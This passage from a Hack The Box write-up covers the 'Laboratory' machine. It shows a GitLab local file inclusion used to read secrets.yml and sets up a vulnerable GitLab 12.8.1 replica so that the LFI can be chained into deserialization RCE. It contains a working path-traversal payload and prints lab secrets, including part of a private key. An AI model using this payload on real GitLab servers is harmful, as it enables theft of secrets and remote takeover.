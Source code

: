 ### LFI -> RCE

The [**HackerOne Report**](https://hackerone.com/reports/827052) also shows how we can leverage LFI to Remote Code Execution which exploits Deserialization vulnerability inside `experimentation_subject_id` cookie.

Step 1 : Grabbing `secrets.yml` :

To administer RCE attack first we need to grab `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file which we can do by replicating the LFI attack with the follow payload:

`![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

```yml
cfx:  ~/Documents/htb/laboratory
→ cat secrets.yml
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
    YxMJm2+5ZDzaDu5T4xLbcM0BshgOM8N3gMcogz0KUmMD3OGLt90vNBq8Wo/9cSyV
    RnBSnbCl0EzpFeeMBymR8aBm8sRpy7+n9VRawmjX9os25CmBBJB93NnZj8QFJxPt
[..SNIP..]
```
The `secret_key_base` value is the one in which we are interested to execute this attack.

```yml
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

Step 2 : Replicating the GitLab CE 12.8.1 Environment

Next, to build the Deserialization payload we need to spin off a replica of vulnerable GitLab instance. We'll use docker to do so.

- Installing docker               : `sudo apt install docker.io`
- Pulling Vulnerable GitLab Image : `docker pull gitlab/gitlab-ce:12.8.1-ce.0`
- Running Docker Image            : `docker run gitlab/gitlab-ce:12.8.1-ce.0`

It will take few mins to run the container to start, in a new terminal we can check the docker process and simultaneously get a shell on it.

```shell
cfx:  ~/Documents/htb/laboratory
→ docker ps
CONTAINER ID        IMAGE                          COMMAND             CREATED             STATUS                             PORTS                     NAMES
55c5745c3e56        gitlab/gitlab-ce:12.8.1-ce.0   "/assets/wrapper"   29 seconds ago      Up 24 seconds (health: starting)   22/tcp, 80/tcp, 443/tcp   friendly_volhard

cfx:  ~/Documents/htb/laboratory
→ docker exec -it friendly_volhard /bin/bash

root@55c5745c3e56:/# ls
RELEASE  assets  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```